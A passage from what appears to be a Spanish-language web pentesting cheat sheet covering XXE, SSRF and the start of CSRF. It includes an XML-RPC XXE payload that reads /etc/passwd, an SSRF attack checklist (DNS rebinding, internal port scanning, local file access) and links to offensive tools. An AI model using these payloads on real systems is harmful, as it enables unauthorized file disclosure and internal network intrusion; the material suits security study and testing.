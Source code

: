 **Check:**

```
<?xml version="1.0"?>
<!DOCTYPE a [<!ENTITY test "THIS IS A STRING!">]>
<methodCall><methodName>&test;</methodName></methodCall>
```

**Si funciona, entonces:**

```
<?xml version="1.0"?>
<!DOCTYPE a[<!ENTITY test SYSTEM "file:///etc/passwd">]>
<methodCall><methodName>&test;</methodName></methodCall>
```

**Herramientas:**

```
# https://github.com/BuffaloWill/oxml_xxe
# https://github.com/enjoiz/XXEinjector
```

## Como detectar SSRF

La falsificación de solicitudes del lado del servidor (también conocida como SSRF) es una vulnerabilidad de seguridad web que permite a un atacante **inducir a la aplicación del lado del servidor a realizar solicitudes HTTP a un dominio arbitrario** elegido por el atacante. 

**Lo que debes intentar hacer** 

- Acceso a **archivos locales** (archivo://) 
- Intentando acceder a la IP local
- **Suplantación de DNS** (dominios que apuntan a 127.0.0.1) 
- **DNS Rebinding**. Esto es útil para omitir las configuraciones que resuelven el dominio  dado y compararlo con una lista blanca y luego intentar acceder a él  nuevamente (ya que tiene que resolver el dominio nuevamente, el DNS  puede servir una IP diferente). Más [información aquí ](https://geleta.eu/2019/my-first-ssrf-using-dns-rebinfing/). 
- Intentando hacer un **descubrimiento de activos internos y un escaneo de puertos internos** . 
- Acceder **a contenido privado** (filtrado por IP o solo accesible localmente, como */admin* la ruta 

​	**Herramientas:**

```
https://github.com/swisskyrepo/SSRFmap
```

```
https://github.com/tarunkant/Gopherus
```

## Como detectar CSRF

La falsificación de solicitudes  entre sitios (también conocida como CSRF) es una vulnerabilidad de  seguridad web que permite a un atacante inducir a los usuarios a  realizar acciones que no tienen la intención de realizar.  Permite que  un atacante eluda parcialmente la misma política de origen, que está  diseñada para evitar que diferentes sitios web interfieran entre sí.

